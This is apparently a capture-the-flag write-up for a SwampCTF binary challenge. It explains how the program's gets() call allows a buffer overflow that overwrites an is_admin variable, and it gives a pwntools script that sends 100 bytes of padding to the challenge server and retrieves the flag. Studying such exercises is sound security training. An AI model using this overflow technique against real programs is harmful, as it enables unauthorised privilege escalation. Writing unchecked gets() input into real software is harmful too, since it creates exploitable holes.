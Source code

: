 
When we run the binary we see that there is print flag option, but when we do that we get the we cannot get flag because we are not the admin
We can see in source code that `is_admin` variable is set to `0`. The program checks the `is_admin` variable during execution, if it is still 0, we are not the admin and we can print the flag
The thing is this program is using gets() function which dosent do bounds check and we can get overflow and we can overwrite local variables including `is_admin` variable

Also if we read the source code there is a comment 

```text
// I saw something online about this being vulnerable???
    // The blog I read said something about how a buffer overflow could corrupt other variables?!?
    // Eh whatever, It's probably safe to use here.
```

All we have to do is that when the program prompts us for our username, we supply it large size of data, lets say 100bytes which is lot more that allocated to us. Some of our input overwrites the `is_admin` variable and we get admin and then we can print the flag, lets do it.


```python
#!/usr/bin/env python3

from pwn import *

exe = './system_terminal'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = 'chals.swampctf.com',61230
#p = process(exe)

p = remote(host,port)

padding = 100

payload = flat(
    asm('nop')*padding,#padding to reach EIP
)

p.sendlineafter(b'Username:',payload)
p.recvuntil(b'>')
p.sendline(b'3')
p.interactive()
```

Run this and we get the flag, we also see that we were set admin

![[Pasted image 20240407233957.png]]

***flag : swampCTF{y0u_@r3_a_h@ck3r}***

